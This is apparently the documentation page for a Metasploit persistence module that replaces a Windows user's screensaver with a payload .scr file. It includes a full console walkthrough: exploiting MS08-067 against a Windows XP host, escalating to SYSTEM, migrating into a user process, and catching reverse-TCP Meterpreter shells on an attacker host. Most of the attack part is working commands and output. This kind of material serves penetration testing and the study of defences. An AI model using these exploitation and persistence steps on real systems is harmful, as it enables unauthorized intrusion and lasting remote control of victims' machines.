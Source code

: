 ## Vulnerable Application

  This module sets a user's screensaver to a payload executable file, saved as a `.scr` file.
  The persistence technique has been documented in MITRE's ATT&CK's technique list.

  Of note, a single .exe (renamed as .scr) can be set in the registry with no parameters.
  To achieve this vector, we use a `windows/exec` payload stub to run a `.bat` file.
  The `.bat` file then runs the true payload, and then the original screensaver.  A `/s`
  flag is required to run the screensaver, as opposed to show the options for it.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on the system (SYSTEM will result in the logged in user)
  3. Do: ```use windows/local/user_screensaver_persistence```
  4. Do: ```set writabledir```
  5. Do: ```run```
  6. Create a ```exploit/multi/handler``` with the correct payload and options
  7. Wait
  8. You should get a user level shell

## Options

  **SCREENSAVERTIMEOUT**

  How long to wait until the Screen Saver is activated in seconds.  Default is `0` which means don't alter the value.

  **WritableDir**

  A folder which the user can write to.  Default is for Windows 7+ `C:\ProgramData\`

## Scenarios

### Windows XP

#### Initial Access

  ```
  msf5 > use 08-067
  
  Matching Modules
  ================
  
     #  Name                                 Disclosure Date  Rank   Check  Description
     -  ----                                 ---------------  ----   -----  -----------
     0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
  
  
  [*] Using exploit/windows/smb/ms08_067_netapi
  msf5 exploit(windows/smb/ms08_067_netapi) > set rhost 111.111.1.111
  rhost => 111.111.1.111
  msf5 exploit(windows/smb/ms08_067_netapi) > run
  
  [*] Started reverse TCP handler on 222.222.2.222:4444 
  [*] 111.111.1.111:445 - Automatically detecting the target...
  [*] 111.111.1.111:445 - Fingerprint: Windows XP - Service Pack 2 - lang:English
  [*] 111.111.1.111:445 - Selected Target: Windows XP SP2 English (AlwaysOn NX)
  [*] 111.111.1.111:445 - Attempting to trigger the vulnerability...
  [*] Sending stage (179779 bytes) to 111.111.1.111
  [*] Meterpreter session 1 opened (222.222.2.222:4444 -> 111.111.1.111:1032) at 2019-08-19 21:16:36 -0400
  
  meterpreter > getsystem
  ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
  ```

#### Migrate to a user account

  ```
  meterpreter > ps
  
  Process List
  ============
  
   PID   PPID  Name              Arch  Session  User                          Path
   ---   ----  ----              ----  -------  ----                          ----
   0     0     [System Process]                                               
   4     0     System            x86   0        NT AUTHORITY\SYSTEM           
   528   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
   592   528   csrss.exe         x86   0        NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\csrss.exe
   616   528   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM           \??\C:\WINDOWS\system32\winlogon.exe
   660   616   services.exe      x86   0        NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\services.exe
   672   616   lsass.exe         x86   0        NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\lsass.exe
   740   660   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\System32\alg.exe
   828   660   vmacthlp.exe      x86   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\vmacthlp.exe
   840   660   svchost.exe       x86   0        NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\svchost.exe
   928   660   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe
   1012  1500  cmd.exe           x86   0        WINXP\userlvl                 C:\WINDOWS\system32\cmd.exe
   1020  660   svchost.exe       x86   0        NT AUTHORITY\SYSTEM           C:\WINDOWS\System32\svchost.exe
   1068  660   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\svchost.exe

meterpreter > migrate 1012
[*] Migrating from 1020 to 1012...
[*] Migration completed successfully.
meterpreter > getuid
Server username: WINXP\userlvl
meterpreter > background
[*] Backgrounding session 1...
```

#### Module Usage

  ```
  msf5 exploit(windows/smb/ms08_067_netapi) > use exploit/windows/local/user_screensaver_persistence 
  msf5 exploit(windows/local/user_screensaver_persistence) > set session 1
  session => 1
  msf5 exploit(windows/local/user_screensaver_persistence) > set writabledir c:\\
  writabledir => c:\
  msf5 exploit(windows/local/user_screensaver_persistence) > run
  
  [*] Started reverse TCP handler on 222.222.2.222:4444 
  [*] Original SCRNSAVE.EXE value: C:\WINDOWS\system32\logon.scr
  [*] Original ScreenSaveActive value: 1
  [*] Original ScreenSaverTimeout value: 60
  [*] Original ScreenSaverIsSecure value: 0
  [+] Script to revert changes:
  reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d C:\WINDOWS\system32\logon.scr /f
  reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
  reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverTimeout /t REG_SZ /d 60 /f
  reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
  [*] Writing payload to c:\dsHpz2wix.scr
  [*] Changing screensaver
  [+] Screensaver set!
  [*] Exploit completed, but no session was created.
  msf5 exploit(windows/local/user_screensaver_persistence) > use exploit/multi/handler 
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 222.222.2.222
  lhost => 222.222.2.222
  msf5 exploit(multi/handler) > set lport 4444
  lport => 4444
  msf5 exploit(multi/handler) > run
  
  [*] Started reverse TCP handler on 222.222.2.222:4444 
  [*] Sending stage (179779 bytes) to 111.111.1.111
  [*] Meterpreter session 2 opened (222.222.2.222:4444 -> 111.111.1.111:1033) at 2019-08-19 21:19:08 -0400
  
  meterpreter > getuid
  Server username: WINXP\userlvl
  ```

